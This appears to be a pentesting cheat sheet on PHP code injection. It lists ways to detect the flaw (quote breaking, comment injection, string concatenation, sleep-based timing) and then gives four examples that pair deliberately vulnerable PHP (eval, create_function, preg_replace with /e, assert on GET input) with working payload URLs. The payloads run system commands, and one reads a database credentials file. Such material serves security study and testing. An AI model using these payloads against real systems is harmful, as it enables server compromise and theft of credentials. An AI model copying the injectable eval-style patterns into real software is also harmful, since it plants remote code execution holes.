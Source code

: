#### Detection
- `eval()` based code injection (user input interpreted/run as code)
- break syntax (`'` or `"`)
- comments injection (`/*0*/`)
- simple concatenation (`"."`)
- string concatenation (`"."in"."put"."` instead of `"input"`)
- time-based (`";sleep(0);//` vs `";sleep(5);//`)

#### Example 1

Payloads:
```
$host/x.php?name=";sleep(2);//
$host/x.php?name=in"."put
$host/X.php?name=";system('cat ../sqli/db.php');//
```

Code:
```php
$str="echo \"Hello ".$_GET['name']."!!!\";";
eval($str);
```

#### Example 2

Payload:
```
$host/x.php?order=id);}system('whoami');//
```

Code:
```php
$order = $_GET["order"];
usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
```

#### Example 3

Payload:
```
$host/x.php?pattern=/str/e&new=system('whoami')&base=str
```

Code (PHP<7):
```
echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
```

Request:
```
$host/x.php?pattern=/str/&new=hax&base=Hello%20str
```

#### Example 4

Payload:
```
$host/x.php?name='.system('ls').'
```

Code:
```php
assert(trim("'".$_GET['name']."'"));
```
